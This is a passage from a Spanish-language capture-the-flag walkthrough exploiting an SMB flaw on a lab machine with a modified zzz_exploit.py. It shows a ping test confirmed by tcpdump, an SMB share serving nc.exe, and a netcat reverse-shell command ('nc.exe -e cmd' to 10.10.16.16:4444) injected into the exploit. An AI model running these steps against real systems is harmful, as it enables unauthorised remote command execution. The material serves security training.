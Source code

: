 Efectivamente, es vulnerable, para tener `ejecución remota de comandos` vamos a modificar el script `zzz_exploit.py`

```
def smb_pwn(conn, arch):
        #smbConn = conn.get_smbconnection()
          
        #print('creating file c:\\pwned.txt on the target')
        #tid2 = smbConn.connectTree('C$')
        #fid2 = smbConn.createFile(tid2, '/pwned.txt')
        #smbConn.closeFile(tid2, fid2)
        #smbConn.disconnectTree(tid2)
        
        #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
        service_exec(conn, r'cmd /c ping 10.10.16.16')
        # Note: there are many methods to get shell over SMB admin session
        # a simple method to get shell (but easily to be detected by AV) is
        # executing binary generated by "msfvenom -f exe-service ..."
```

Ahora debemos `ejecutar` el `script`

```
# python2 zzz_exploit.py 10.129.227.181 browser
```

`Recibimos` en nuestro equipo `trazas icmp`

```
# sudo tcpdump -i tun0 icmp
[sudo] password for justice-reaper: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:05:02.159309 IP 10.129.227.181 > 10.10.16.16: ICMP echo request, id 512, seq 256, length 40
16:05:02.163609 IP 10.10.16.16 > 10.129.227.181: ICMP echo reply, id 512, seq 256, length 40
16:05:03.171402 IP 10.129.227.181 > 10.10.16.16: ICMP echo request, id 512, seq 512, length 40
16:05:03.171475 IP 10.10.16.16 > 10.129.227.181: ICMP echo reply, id 512, seq 512, length 40
16:05:04.171822 IP 10.129.227.181 > 10.10.16.16: ICMP echo request, id 512, seq 768, length 40
16:05:04.171843 IP 10.10.16.16 > 10.129.227.181: ICMP echo reply, id 512, seq 768, length 40
```

Nos copiamos `nc.exe` en el directorio actual y nos `montamos` un `servidor smb`

```
# cp /usr/share/windows-resources/binaries/nc.exe .
# impacket-smbserver smbFolder $(pwd) -smb2support
```

Nos ponemos en `escucha` con `netcat` por el `puerto 4444`

```
# nc -nlvp 4444
```

Modificamos el scrip `zzz_exploit.py`

```
def smb_pwn(conn, arch):
	#smbConn = conn.get_smbconnection()
	
	#print('creating file c:\\pwned.txt on the target')
	#tid2 = smbConn.connectTree('C$')
	#fid2 = smbConn.createFile(tid2, '/pwned.txt')
	#smbConn.closeFile(tid2, fid2)
	#smbConn.disconnectTree(tid2)
	
	#smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
	service_exec(conn, r'cmd /c \\10.10.16.16\smbFolder\nc.exe -e cmd 10.10.16.16 4444')
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."
```